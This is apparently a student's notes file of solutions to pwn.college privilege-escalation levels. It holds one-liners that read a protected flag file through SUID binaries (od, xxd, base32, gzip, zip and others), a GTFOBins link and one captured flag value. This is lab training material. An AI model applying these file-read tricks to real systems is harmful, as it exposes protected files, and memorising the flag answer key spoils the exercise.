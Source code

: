 
# If you dont find anything for privilege escalation then try this website , only if all doors get closed 
## https://gtfobins.github.io/gtfobins/mv/

## when you run strace on a suid program , it will not run as root, it will drop elevated privileges 

# 7 = vim -R flag
# 8 = emacs flag
# 9 = nano flag
# 10 = rev flag | rev 

# 11 = od -t a flag | tr -s ' ' | cut -d " " -f 2- --output-delimiter=''

# 12 = hd flag | awk '{print $NF}' | xargs | tr -d '| '

# 13 = xxd /flag | awk '{print $NF}' | xargs | tr -d ' '

# 14 = base32 flag | base32 -d 

# 15 = pwn.college{Y_WcSN1t1JzNv8kH2FpiLkpfvO3.QX3UTMskzMxUzW}

# 16 = split flag; cat xaa

# 17 = gzip -c flag | gzip -d 

# 18 = bzip2 -c flag | bzip2 -d

# 19 = zip -r /home/hacker/flag.zip flag ; cd /home/hacker;unzip flag.zip;cat flag

